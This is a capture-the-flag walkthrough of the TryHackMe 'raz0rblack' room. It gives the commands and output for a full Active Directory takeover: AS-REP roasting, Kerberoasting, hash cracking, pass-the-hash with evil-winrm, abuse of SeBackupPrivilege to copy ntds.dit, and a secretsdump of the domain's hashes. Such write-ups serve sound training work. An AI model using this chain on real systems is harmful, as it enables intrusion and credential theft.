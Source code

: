 # raz0rblack

https://tryhackme.com/room/raz0rblack

A multi-stage room, a bit hard.

01. Enum showed standard windows ports, and a domain (raz0rblack.thm) 
02. i used to enumerate the domain: root@kali$crackmapexec smb 10.10.73.116
03. Enum NFS
    root@kali$ showmount -e 10.10.73.116
    Export list for 10.10.73.116:
    /users (everyone)
    root@kali$ mkdir users
    root@kali$ mount -t nfs -o vers=2 10.10.73.116:/users ./users
    root@kali$ cd users
    root@kali$ ls
    employee_status.xlsx  sbradley.txt
    Extracted usernames from the xlsx file and create file users.txt (format used like sbradley)
04. root@kali$ python3 /opt/impacket/examples/GetNPUsers.py 'raz0rblack.thm/' -usersfile users.txt -no-pass -dc-ip 10.10.209.59 -format hashcat -outputfile hashes.asreproast.txt
    cracked the hash with E:\PENTEST\hashcat>hashcat32.exe -m 18200 hashes.asreproast.txt rockyou.txt --force
05. Testing new creds on SMB
    root@kali$ smbmap -H 10.10.73.116 -u twilliams -p password
06. bruteforce usernames
   root@kali$ crackmapexec smb 10.10.73.116 -u 'twilliams' -p 'password' --rid-brute
07. Test if p password is reused
   root@kali$ crackmapexec smb 10.10.73.116 -u users.txt -p pass.txt
   SMB         10.10.73.116    445    HAVEN-DC         [*] Windows 10.0 Build 17763 x64 (name:HAVEN-DC) (domain:raz0rblack.thm) (signing:True) (SMBv1:False)
   SMB         10.10.73.116    445    HAVEN-DC         [-] raz0rblack.thm\xyan1d3:password STATUS_LOGON_FAILURE
   SMB         10.10.73.116    445    HAVEN-DC         [-] raz0rblack.thm\lvetrova:password STATUS_LOGON_FAILURE
   SMB         10.10.73.116    445    HAVEN-DC         [-] raz0rblack.thm\sbradley:password STATUS_PASSWORD_MUST_CHANGE
08  change the password of sbradley
   root@kali$ smbpasswd -r 10.10.16.174 -U sbradley
   Old SMB password: password
   New SMB password: Puckie123!
   Retype new SMB password: Puckie123!
   Password changed for user sbradley on 10.10.16.174
09. Enumerate SMB with new password
   root@kali$ smbmap -H 10.10.73.116 -u sbradley -p 'Puckie123!'
   [+] IP: 10.10.16.174:445        Name: 10.10.73.116
        Disk                                                    Permissions     Comment
        ----                                                    -----------     -------
        ADMIN$                                                  NO ACCESS       Remote Admin
        C$                                                      NO ACCESS       Default share
        IPC$                                                    READ ONLY       Remote IPC
        NETLOGON                                                READ ONLY       Logon server share
        SYSVOL                                                  READ ONLY       Logon server share
        trash                                                   READ ONLY       Files Pending for deletion

   root@kali$ smbclient //10.10.73.116/trash --user='sbradley%Puckie123!'
   Try "help" to get a list of possible commands.
   smb: \> dir
  .                                   D        0  Tue Mar 16 02:01:28 2021
  ..                                  D        0  Tue Mar 16 02:01:28 2021
  chat_log_20210222143423.txt         A     1340  Thu Feb 25 14:29:05 2021
  experiment_gone_wrong.zip           A 18927164  Tue Mar 16 02:02:20 2021
  sbradley.txt                        A       37  Sat Feb 27 14:24:21 2021
  smb: \> mget *
10. Crack the zip
   root@kali$ zip2john experiment_gone_wrong.zip > hash
   root@kali$ john --wordlist=/usr/share/wordlists/rockyou.txt hash
   root@kali$ unzip experiment_gone_wrong.zip
   Archive:  experiment_gone_wrong.zip
   [experiment_gone_wrong.zip] system.hive password: password
   inflating: system.hive
   inflating: ntds.dit
11. Find the hash of lvetrova and login
    root@kali$ evil-winrm -i 10.10.73.116 -u lvetrova -H hash
12. Kerberoasting with pass-the-hash with lvetrova creds
    root@kali$ python3 /opt/impacket/examples/GetUserSPNs.py -dc-ip 10.10.168.132 raz0rblack.thm/lvetrova -hashes hash:hash -outputfile hashes.kerberoast

   ServicePrincipalName                   Name     MemberOf                                                    PasswordLastSet             LastLogon  Delegation 
   -------------------------------------  -------  ----------------------------------------------------------  --------------------------  ---------  ----------
   HAVEN-DC/xyan1d3.raz0rblack.thm:60111  xyan1d3  CN=Remote Management Users,CN=Builtin,DC=raz0rblack,DC=thm  2021-02-23 10:17:17.715160  <never>

   E:\PENTEST\hashcat>hashcat32.exe -m 13100 hashes.kerberoast.txt rockyou.txt --force
   finds cracked password: password
   root@kali$ evil-winrm -i 10.10.73.116 -u xyan1d3 -p password
13. PrivEsc
    *Evil-WinRM* PS C:\Users\xyan1d3> whoami /all

[...]

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                    State
============================= ============================== =======
SeMachineAccountPrivilege     Add workstations to domain     Enabled
SeBackupPrivilege             Back up files and directories  Enabled
SeRestorePrivilege            Restore files and directories  Enabled
SeShutdownPrivilege           Shut down the system           Enabled
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set Enabled
Abuse Backup Privs (important: diskshadow.txt has a space after each line):

root@kali$ cat diskshadow.txt
set metadata C:\tmp\tmp.cabs 
set context persistent nowriters 
add volume c: alias someAlias 
create 
expose %someAlias% h: 

*Evil-WinRM* PS C:\Users\xyan1d3> mkdir C:\tmp 
*Evil-WinRM* PS C:\tmp> upload diskshadow.txt

*Evil-WinRM* PS C:\tmp> diskshadow.exe /s c:\tmp\diskshadow.txt
Microsoft DiskShadow version 1.0
Copyright (C) 2013 Microsoft Corporation
On computer:  HAVEN-DC,  7/16/2021 3:45:19 PM

-> set metadata C:\tmp\tmp.cabs
-> set context persistent nowriters
-> add volume c: alias someAlias
-> create
Alias someAlias for shadow ID {29b531e8-3c00-49f9-925d-5e1e3937af13} set as environment variable.
Alias VSS_SHADOW_SET for shadow set ID {2c73aeea-cdb0-47d5-85f8-dfe4dfbdbea6} set as environment variable.

Querying all shadow copies with the shadow copy set ID {2c73aeea-cdb0-47d5-85f8-dfe4dfbdbea6}

        * Shadow copy ID = {29b531e8-3c00-49f9-925d-5e1e3937af13}               %someAlias%
                - Shadow copy set: {2c73aeea-cdb0-47d5-85f8-dfe4dfbdbea6}       %VSS_SHADOW_SET%
                - Original count of shadow copies = 1
                - Original volume name: \\?\Volume{115c1f55-0000-0000-0000-602200000000}\ [C:\]
                - Creation time: 7/16/2021 3:45:20 PM
                - Shadow copy device name: \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1
                - Originating machine: HAVEN-DC.raz0rblack.thm
                - Service machine: HAVEN-DC.raz0rblack.thm
                - Not exposed
                - Provider ID: {b5946137-7b9f-4925-af80-51abd60b20d5}
                - Attributes:  No_Auto_Release Persistent No_Writers Differential

Number of shadow copies listed: 1
-> expose %someAlias% h:
-> %someAlias% = {29b531e8-3c00-49f9-925d-5e1e3937af13}
The shadow copy was successfully exposed as h:\.
Get dll’s to abuse Backup Privs:

root@kali$ wget https://github.com/giuliano108/SeBackupPrivilege/raw/master/SeBackupPrivilegeCmdLets/bin/Debug/SeBackupPrivilegeUtils.dll

root@kali$ wget https://github.com/giuliano108/SeBackupPrivilege/raw/master/SeBackupPrivilegeCmdLets/bin/Debug/SeBackupPrivilegeCmdLets.dll
Upload, import, abuse:

*Evil-WinRM* PS C:\tmp> upload SeBackupPrivilegeUtils.dll

*Evil-WinRM* PS C:\tmp> upload SeBackupPrivilegeCmdLets.dll

*Evil-WinRM* PS C:\tmp> import-module .\SeBackupPrivilegeUtils.dll

*Evil-WinRM* PS C:\tmp> import-module .\SeBackupPrivilegeCmdLets.dll

*Evil-WinRM* PS C:\tmp> copy-filesebackupprivilege h:\windows\ntds\ntds.dit C:\tmp\ntds.dit -overwrite

*Evil-WinRM* PS C:\tmp> reg save HKLM\SYSTEM C:\tmp\system

*Evil-WinRM* PS C:\tmp> download ntds.dit

*Evil-WinRM* PS C:\tmp> download system
Dump the hashes:

root@kali$ python3 /opt/impacket/examples/secretsdump.py -system system -ntds ntds.dit LOCAL

root@kali$ evil-winrm -i 10.10.73.116 -u administrator -H hash

*Evil-WinRM* PS C:\users\administrator\Documents> 


Tools used:

- impacket
- kerbrute: https://github.com/ropnop/kerbrute
- evil-winrm
- hacktricks for guides on privileges: https://book.hacktricks.xyz/windows/windows-local-privilege-escalation/privilege-escalation-abusing-tokens
- https://github.com/Hackplayers/PsCabesha-tools/blob/master/Privesc/Acl-FullControl.ps1
- https://github.com/giuliano108/SeBackupPrivilege
© 2021 GitHub, Inc.
Terms
Privacy
Security
Status
Docs
Contact GitHub
Pricing
API
Training
Blog
About
